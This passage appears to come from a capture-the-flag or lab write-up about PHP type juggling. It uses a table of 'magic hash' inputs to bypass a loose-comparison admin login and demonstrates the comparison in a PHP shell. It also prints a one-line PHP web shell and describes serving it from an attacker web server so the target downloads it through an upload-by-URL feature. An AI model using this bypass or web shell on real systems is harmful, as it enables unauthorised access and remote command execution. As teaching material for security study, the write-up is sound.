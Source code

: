 A hash which PHP would interpret as a `0` valued float is commonly referred to as a magic hash. The table below lists magic hashes for different hash algorithms together with the input to these hash algorithms. Assuming that the stored password hash of one of our two compromised users is a magic hash and that the authentication check is performed using a loose comparison between the calculated password hash and the stored password hash, we could potentially be able to authenticate as this user by using one of the values in the `Input` column as a password.

<div style="overflow-x:auto;">
<table class="customTable"><tr><th>Hash Type</th><th>Hash Length</th><th>Input</th><th>Magic Hash</th></tr>
<tr><td>MD2</td><td>32</td><td>505144726</td><td>0e015339760548602306096794382326</td></tr>
<tr><td>MD4</td><td>32</td><td>48291204</td><td>0e266546927425668450445617970135</td></tr>
<tr><td>MD5</td><td>32</td><td>240610708</td><td>0e462097431906509019562988736854</td></tr>
<tr><td>SHA-1</td><td>40</td><td>10932435112</td><td>0e07766915004133176347055865026311692244</td></tr>
</table>
</div>

![adminLogin](/assets/{{ imgDir }}/adminLogin.png)

<div id="login"></div>
We can use the `login.php` page to try to authenticate with one of the usernames `chris` and `admin` together with a password in the `Input` field of the table. Upon trying each of these combinations, we can conclude that we can not log in with the username `chris` together with any of the passwords. However, we can log in with the username `admin` and password `240610708`! This leads us to the `Upload` page below.

![loginSuccess](/assets/{{ imgDir }}/loginSuccess.png)

What has happened is that the authentication portion of the code uses a loose comparison with the format `storedPasswordHash == md5(receivedPassword)` where `storedPasswordHash` is the stored password hash for the admin user and `receivedPassword` is the password we provided. If `storedPasswordHash` can be casted to a float with a numeric value of `0`, we would pass the authentication check since we know that `md5(receivedPassword)` becomes `0e462097431906509019562988736854` and loose comparison is used. For example, if we assume that `storedPasswordHash` is `0e12345678123456781234567812345678`, the comparison would result in `true`, as can be seen below. For an analysis of exactly what has happened in the source code, see the [extra]({{path}}#extra) section at the end of this page.

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@php -a@@
Interactive mode enabled

php > @@var_dump("0e12345678123456781234567812345678"=="0e462097431906509019562988736854");@@
bool(@@@true@@@)
php > 
{% endhighlight %}

{% highlight php linenos %}
<?php $cmd = system($_REQUEST["cmd"]); ?>
{% endhighlight %}

The `Upload` page let's a user submit a URL to a file which the target then uses to download this file. We can start a Python web server by executing `python3 -m http.server 80` and try to trick the target into downloading malicious files from this web server. For example, we could try to trick it into downloading the PHP web shell shown above.
